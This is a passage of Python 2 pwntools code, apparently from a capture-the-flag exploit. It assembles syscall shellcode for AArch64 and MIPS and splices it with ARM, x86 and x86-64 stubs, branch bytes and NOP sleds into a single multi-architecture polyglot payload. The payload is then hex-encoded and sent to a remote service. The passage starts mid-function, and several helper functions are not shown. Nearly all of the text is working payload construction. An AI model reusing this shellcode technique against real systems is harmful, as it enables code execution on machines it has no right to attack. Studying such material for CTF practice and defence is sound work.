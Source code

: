 ```python
    add x0, x0, #20480
    mov x3, x0

    ldr x1, ={p}
    str x1, [x0]

    mov x1, x3
    mov x0, {arg1}
    mov x8, {sys_num}
    svc #0
  '''.format(arg1=arg1, sys_num=sys_num, p=p), arch = 'aarch64', os = 'linux')

  print disasm(payload, arch = 'aarch64', os = 'linux')

  return payload

def get_mips(sys_num, arg1, arg2):
  p1 = int(pack_str(arg2[:4]),16)
  p2 = int(pack_str(arg2[4:]),16)

  payload = asm('''
    sub $sp, $sp, 8
    add $t2, $sp, 0
    add $a1, $t2, 0

    li $t1, {p1}
    sw $t1, ($t2)
    
    add $t2, $t2, 4
    li $t1, {p2}
    sw $t1, ($t2)
    
    
    li $a0, {arg1}
    li $v0, {sys_num}

    syscall
  '''.format(arg1=arg1, sys_num=sys_num, p1=p1, p2=p2), arch = 'mips', os = 'linux')

  print disasm(payload, arch = 'mips', os = 'linux')

  return payload

payload = unhex('EB780032')
# arm / aarch64 / MIPS
payload += "\x78\x00\x00\x14"
payload += "\x0d\x00\x00\x1a\x00\x00\x00\x00"
payload += get_arm32(sys_num, arg1, arg2)
payload += get_mips(sys_num, arg1, arg2)
payload += "\x3c\x00\x00\x14"
# x86 / x86-64
payload += '\x90'*0x100
payload += unhex('31c941e22a')
payload += get_i386(sys_num, arg1, arg2)
payload += get_amd64(sys_num, arg1, arg2)
payload += 'AA'
payload += unhex('1f2003d5')*300
payload += get_arm64(sys_num, arg1, arg2)

print payload.encode('hex')

sh.sendline(payload.encode('hex'))

```